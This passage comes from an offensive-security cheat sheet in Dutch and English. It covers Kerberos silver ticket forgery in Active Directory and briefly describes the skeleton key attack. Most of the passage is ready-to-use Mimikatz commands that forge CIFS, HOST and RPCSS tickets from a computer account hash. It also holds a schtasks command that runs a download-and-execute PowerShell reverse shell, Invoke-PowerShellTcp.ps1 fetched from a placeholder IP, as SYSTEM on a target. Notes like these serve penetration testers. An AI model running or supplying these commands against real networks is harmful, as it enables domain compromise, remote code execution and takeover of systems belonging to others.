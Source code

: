 ## Silver ticket
Silver tickets zijn nagemaakte TGS tickets. Omdat de ticket is nagemaakt op de workstation is er geen communicatie met de DC. Eeen silver ticket kan worden aangemaakt met de service account hash of computer account hash.

https://adsecurity.org/?p=2011
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

#### Make silver ticket for CIFS
Use the hash of the local computer
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:CIFS /rc4:<local computer hash> /user:Administrator /ptt"'
```

#### Check access (After CIFS silver ticket)
```
ls \\<servername>\c$\
```

#### Make silver ticket for Host
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'
```

#### Schedule and execute a task (After host silver ticket)
```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

#### Make silver ticket for WMI
Execute for WMI /service:HOST /service:RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:RPCSS /rc4:<local computer hash> /user:Administrator /ptt"'
```

#### Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```

## Skeleton key
De skeleton key attack is een aanval dat malware in het geheugen laad van de domain controller. Waarna het mogelijk is om als elke user the authenticeren met een master wachtwoord. Als je dit met mimikatz uitvoert is dit wachwoord 'mimikatz'. Dit laad een grote security gat waarbij dit wordt uitgevoerd! Voer dit dus niet uit in een productieomgeving zonder goed te overleggen met de klant. Om deze aanval te stoppen moet de domain controller worden herstart.

